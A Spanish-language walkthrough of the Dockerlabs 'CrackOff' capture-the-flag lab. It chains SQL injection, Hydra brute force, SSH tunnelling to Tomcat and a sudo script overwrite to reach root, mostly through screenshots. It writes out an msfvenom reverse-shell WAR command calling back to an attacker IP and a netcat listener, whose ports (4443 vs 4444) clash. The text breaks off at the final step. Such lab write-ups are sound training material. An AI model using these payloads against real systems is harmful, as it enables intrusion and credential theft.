# CrackOff - Laboratorio CTF Dockerlabs

## Resumen Ejecutivo

CrackOff es un laboratorio de hacking integral que simula un escenario de pentesting realista. A través de múltiples vectores de ataque encadenados, el laboratorio demuestra la explotación de vulnerabilidades como SQL injection, ataques de fuerza bruta, explotación de servicios web y escalada de privilegios. El objetivo es obtener acceso root y capturar las flags de distintos usuarios del sistema.

---

## Fase 1: Reconocimiento e Identificación de Servicios

### Escaneo de Puertos

El laboratorio comienza con un escaneo de puertos utilizando nmap, revelando los puertos 22 (SSH) y 80 (HTTP) abiertos:



### Enumeración de Directorios

Posteriormente, se realiza un escaneo con gobuster para detectar archivos y directorios accesibles en el servidor web:



### Exploración del Servicio HTTP

Se procede a visitar el servicio HTTP en el puerto 80 y los directorios encontrados:



---

## Fase 2: Explotación de SQL Injection

### Identificación de la Vulnerabilidad

El directorio "welcome" muestra información que indica un potencial vector de ataque por SQL injection (SQLi), el cual se toma en consideración para un análisis más profundo:



### Prueba de SQLi en el Panel de Login

En el apartado de login.php se identifica un formulario de autenticación. Considerando la información anterior, se procede a probar la posibilidad de SQL injection:



La prueba arroja el resultado esperado, confirmando la existencia de esta vulnerabilidad:



### Extracción de Datos con SQLmap

Con la vulnerabilidad confirmada, se utiliza la herramienta sqlmap para buscar bases de datos vulnerables, identificándose dos: `crackoff_db` y `crackofftrue_db`:



Se verifica la estructura de tablas en ambas bases de datos. La primera contiene dos tablas (usuarios y contraseñas) mientras que la segunda únicamente contiene la tabla usuarios:



### Revisión de Contenido de Bases de Datos

Se procede a examinar la información almacenada en todas las tablas:

**crackoff_db:**




**crackofftrue_db:**



---

## Fase 3: Acceso Inicial por SSH

### Ataque de Fuerza Bruta

En las tablas se pueden observar usuarios y contraseñas. Estas credenciales, al utilizarlas en el panel de login, llevan al apartado "welcome", lo que sugiere que sirven para el servicio SSH. Se guardan las credenciales en archivos `passwords.txt` y `users.txt` y se utiliza hydra para ejecutar un ataque de fuerza bruta, obteniendo las credenciales del usuario `rosa`:



### Conexión SSH como Usuario Rosa

Se procede a iniciar sesión con el usuario rosa mediante SSH:



### Enumeración Inicial en el Sistema

Se intenta identificar vectores de escalada de privilegios mediante la revisión de archivos, directorios y la ejecución de comandos comunes como `sudo -l`, sin resultados significativos:



Se lee el archivo `/etc/passwd`, el cual revela la existencia de dos usuarios SSH adicionales: `mario` y `alice`:



### Descubrimiento de Información Sensible

Revisando otros directorios, se encuentra una carpeta llamada `alice_note` con un archivo `note.txt` que contiene información potencialmente sensible. Inicialmente se considera que podría ser la contraseña de alice, pero no funciona para ese propósito:



---

## Fase 4: Descubrimiento de Servicio Tomcat

### Identificación de Puertos Locales

Después de intentar múltiples vectores de escalada de privilegios, se procede a examinar los puertos y URLs activos utilizando `netstat -ano`:



Se identifica un servicio Apache Tomcat ejecutándose en localhost:8080.

### Port Forwarding

Para interactuar con este servicio, se establece un túnel port forwarding aprovechando la conexión SSH del usuario rosa:



Con esta configuración, se puede acceder al servicio de Tomcat en localhost:8080:



---

## Fase 5: Explotación de Apache Tomcat

### Creación del Payload

Tras evaluar distintos vectores de ataque, se procede con un ataque de RCE (Remote Code Execution) mediante reverse shell. Se crea un archivo malicioso `shell.war` que ejecutará una reverse shell en la máquina atacante, aprovechando la funcionalidad del manager de Tomcat. Se utiliza msfvenom para crear el payload:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=4443 -f war -o shell.war
```

### Autenticación en Tomcat Manager

Para proceder con la carga del payload, se necesitan las credenciales del usuario de Tomcat. Se ejecuta otro ataque de fuerza bruta con hydra contra el servicio de autenticación de Tomcat Manager:



Se obtienen exitosamente las credenciales del usuario y contraseña:



### Carga y Ejecución del Payload

Se sube el payload creado a Tomcat y se ejecuta. Es importante mantener un listener de netcat en el puerto especificado durante la creación del payload (en este caso, puerto 4444):

```bash
nc -lnvp 4444
```
---

## Fase 6: Escalada de Privilegios a Root

### Obtención de Reverse Shell

Se obtiene una reverse shell con el usuario `tomcat`. Al ejecutar `sudo -l`, se verifica que este usuario puede ejecutar un script llamado `catalina.sh` como root sin requerir contraseña:



### Sobrescritura de Binario y Escalada

El binario `catalina.sh` por sí solo no proporciona una escalada de privilegios directa. Sin embargo, ya que el usuario `tomcat` tiene permisos para modificar este archivo, se procede a sobrescribirlo con una shell que mantenga el SUID de root. Al ejecutar el binario modificado, se obtiene acceso como usuario root y se captura la flag:



**¡Se ha logrado acceso root!**

---

## Fase 7: Exploración Adicional (Bonus)

### Acceso al Usuario Mario

Se encuentra un archivo con credenciales para el usuario `mario`. Se procede a conectarse mediante SSH:



Al revisar la carpeta del usuario mario, se encuentra la flag correspondiente a este usuario junto con un archivo de tipo `.kdbx`, que potencialmente está relacionado con el usuario alice:



### Acceso a la Contraseña de Alice

El archivo `.kdbx` se descarga utilizando `scp` y se abre con Keepass2 para visualizar su contenido:



El documento requiere una contraseña. Después de probar con varias credenciales potenciales, se utiliza el contenido del archivo `note.txt` encontrado casi al inicio del laboratorio, el cual proporciona acceso exitoso:



### Conexión SSH como Usuario Alice

Se procede a iniciar sesión como usuario alice:

